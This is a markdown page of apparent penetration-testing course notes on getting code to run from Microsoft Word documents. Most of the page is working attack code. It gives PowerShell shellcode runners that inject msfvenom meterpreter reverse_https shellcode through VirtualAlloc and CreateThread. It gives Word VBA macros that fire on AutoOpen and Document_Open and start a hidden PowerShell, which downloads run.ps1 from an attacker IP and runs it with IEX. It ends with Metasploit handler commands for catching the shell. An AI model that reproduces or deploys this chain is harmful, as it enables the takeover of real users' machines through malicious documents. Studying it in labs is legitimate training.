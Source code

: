 ```yaml
---
title: PowerShell Shellcode in Word
layout: default
parent: Client Side Execution
nav_order: 2
---
```


Similar to CSharp, the theory is to:
1. Allocate memory with `VirtualAlloc(0, sizeOfShellcodeArray, 0x3000, 0x40)`
2. Copy shellcode using `[System.Runtime.InteropServices.Marshal]::Copy(shellcodeBuffer, 0, startAddress, $size)`. startAddress here is the return value of `VirtualAlloc()` in step 1.
3. Execute with `CreateThread(0, 0, startAddress, 0, 0, 0)`, and assign the value to `$thandle`
4. Don't exit the newly created thread even though our PowerShell is closed using `WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")`

First, generate the shellcode using msfvenom:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1
```

Then put it into the Powershell code below for **64-bit**:

```powershell
$Shell32 = @"
using System;
using System.Runtime.InteropServices;

public class Shell32{
[DllImport("Kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

[DllImport("Kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("Kernel32.dll", SetLastError = true)]
public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
}
"@

Add-Type $Shell32

[Byte[]] $buf = SHELLCODE HERE
$size = $buf.length
$sizeUIntPtr = New-Object System.UIntPtr $size
[IntPtr]$addr = [Shell32]::VirtualAlloc(0,$sizeUIntPtr,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Shell32]::CreateThread(0,0,$addr,0,0,0);
[Shell32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Note:
* Can remove all the `[return: MarshalAs(...)]`
* Sometimes the DLL might not be correct, refer back to MSDN for the final confirmation

Official Solution from Offsec for **32-bit** (using `msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1`):

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
  [DllImport("kernel32")]
  public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

  [DllImport("kernel32", CharSet=CharSet.Ansi)]
  public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

  [DllImport("kernel32.dll", SetLastError=true)]
  public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32
[Byte[]] $buf = SHELLCODE HERE
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Using this will detect proxy and with user agent, but might fail if the proxy server got AMSI? **(with proxy aware and user agent)**:

```vb
Sub MyMacro()
    Dim str As String
    str = "powershell -Command """
    str = str & "New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null; "
    str = str & "$keys = Get-ChildItem 'HKU:\'; "
    str = str & "ForEach ($key in $keys) {if ($key.Name -like '*S-1-5-21-*') {$start = $key.Name.substring(10);break}}; "
    str = str & "$proxyAddr=(Get-ItemProperty -Path 'HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\').ProxyServer; "
    str = str & "[System.Net.WebRequest]::DefaultWebProxy = New-Object System.Net.WebProxy('http://$proxyAddr'); "
    str = str & "$wc = new-object system.net.WebClient; "
    str = str & "$wc.Headers.Add('User-Agent', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36');"
    str = str & "$wc.DownloadString('http://192.168.45.169/run.ps1') | IEX"""
    Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

Using this if default proxy. Add this to a Microsoft Word Macro `AutoOpen()` **(without proxy aware and user agent)**:

```vb
Sub MyMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadString('http://IP/run.ps1') | IEX"
  Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

Finally prepare for incoming shell **(remember to change to 32-bit if required)**:

```
sudo systemctl start apache2
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```


To debug use

```
sudo tail /var/log/apache2/access.log
```
